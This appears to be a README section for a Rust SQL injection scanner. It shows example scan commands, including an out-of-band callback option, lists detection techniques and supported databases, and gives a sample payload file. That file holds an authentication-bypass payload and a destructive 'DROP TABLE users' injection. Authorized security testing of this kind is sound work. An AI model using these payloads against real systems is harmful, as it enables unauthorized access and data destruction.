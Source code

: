 #### Advanced SQLi Options
```bash
# Full scan with all options
cargo run -- sqli-scan \
  --target "http://testsite.com/page?id=1" \
  --confirm-authorized \
  --max-concurrency 5 \
  --rps 10 \
  --timeout 30 \
  --max-depth 3 \
  --time-delay 3 \
  --time-samples 5 \
  --output json

# With out-of-band testing
cargo run -- sqli-scan \
  --target "http://testsite.com/user?id=1" \
  --confirm-authorized \
  --enable-oob \
  --oob-host "your-callback-server.com"

# Custom payload file
cargo run -- sqli-scan \
  --target "http://testsite.com/page?id=1" \
  --confirm-authorized \
  --payload-file payloads/custom-sqli.yaml
```

#### SQLi Detection Techniques

The scanner tests for:
- **Error-based SQLi**: Forces database errors to appear in responses
- **Time-based blind SQLi**: Uses database sleep functions to confirm injection
- **Boolean-based blind SQLi**: Observes response differences based on true/false conditions
- **UNION-based SQLi**: Attempts to extract data using UNION queries
- **Out-of-band SQLi**: Uses DNS/HTTP callbacks for data exfiltration

#### Supported Databases
- MySQL/MariaDB
- PostgreSQL
- Oracle
- Microsoft SQL Server
- SQLite

#### Custom Payload Files

Create YAML files in `payloads/` directory:

```yaml
# payloads/custom-sqli.yaml
mysql:
  - payload: "' OR '1'='1"
    description: "Basic authentication bypass"
  - payload: "'; DROP TABLE users--"
    description: "Table deletion attempt"

postgresql:
  - payload: "' OR 1=1--"
    description: "Boolean-based injection"
```

---